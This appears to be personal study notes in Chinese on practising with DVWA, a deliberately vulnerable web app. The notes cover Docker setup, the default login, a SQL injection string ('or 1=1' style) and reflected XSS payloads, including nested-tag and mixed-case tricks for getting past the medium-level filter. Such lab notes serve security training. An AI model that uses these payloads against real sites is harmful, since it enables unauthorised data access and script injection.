 ## DVWA Security
```
新手指南：DVWA-1.9全级别教程（完结篇，附实例）之XSS 
https://www.freebuf.com/articles/web/123779.html
```

## 環境建置
> 1.下載image     
```
Google search: docker hub dvwa 
```
```
下載: docker pull infoslack/dvwa
啟動: docker run -d -p 80:80 infoslack/dvwa
```

> 2.啟動image  
```
docker image ls
```
```
docker run -p 80:80 -t vulnerables/web-dvwa
```

> 3.登入DVWA進行設定  
```
步驟1: 登入DVWA
       帳號:admin  密碼:password (通用帳密)
```
```
步驟2:設定資料庫  
輸入網址:  http://127.0.0.1/setup.php  
  點選"Create/Reset Database"
```





## SQL injection:LOW
#### 瀏覽全部資料 1' or '1'='1
![image](https://github.com/kampfcl3/AI_2020/blob/main/security/pic/SQL%20injection1.png)
### XSS(Reflected): LOW
#### <b>aaa</>
![image](https://github.com/kampfcl3/AI_2020/blob/main/security/pic/xss(reflected)1.png)
#### 跑馬燈 <marquee/>hello</>
![image](https://github.com/kampfcl3/AI_2020/blob/main/security/pic/xss(reflected)2.png)
#### 跳視窗 <script>alert(/ya~/)</script>
![image](https://github.com/kampfcl3/AI_2020/blob/main/security/pic/xss(reflected)3.png)
#### XSS(Reflected): Medium
#### 1.跳視窗(錯位混淆) <sc<script>ript>alert(/xss/)</script>
```
erro畫面: <script>alert(/ya~/)</script>
```
![image](https://github.com/kampfcl3/AI_2020/blob/main/security/pic/xss(reflected)4.png)
```
中階會將<script>給砍掉變空白，所以可以利用錯位的方式去混淆，以達成目標
```
#### 2.跳視窗(大小寫混淆) <ScRipt>alert(/xss/)</script>
```
同跳視窗1，另用大小寫的方式去繞過檢測
```


## reference
[Hacking Monks](https://www.youtube.com/channel/UCkfjJOdB7W7bRishjx-EYmA)  
[Ethical hacking: Top 10 browser extensions for hacking](https://securityboulevard.com/2019/12/ethical-hacking-top-10-browser-extensions-for-hacking/)    
[How to Install Google Chrome on Kali Linux](https://www.tecmint.com/install-google-chrome-on-kali-linux/)  
[DVWA之SQL Injection--测试分析（Impossible）](https://www.cnblogs.com/uestc2007/p/11751910.html)    
[DVWA 練習弱點、網站應用程式的工具](https://ssorc.tw/3674/dvwa-%E7%B7%B4%E7%BF%92%E5%BC%B1%E9%BB%9E%E3%80%81%E7%B6%B2%E7%AB%99%E6%87%89%E7%94%A8%E7%A8%8B%E5%BC%8F%E7%9A%84%E5%B7%A5%E5%85%B7/)   


> github tutorial

[曾龍教授_DVWA網站安全實戰](https://github.com/MyDearGreatTeacher/IPAS/blob/master/202010/%E6%8A%80%E8%A1%93/DVWA%E7%B6%B2%E7%AB%99%E5%AE%89%E5%85%A8%E5%AF%A6%E6%88%B0.md)  


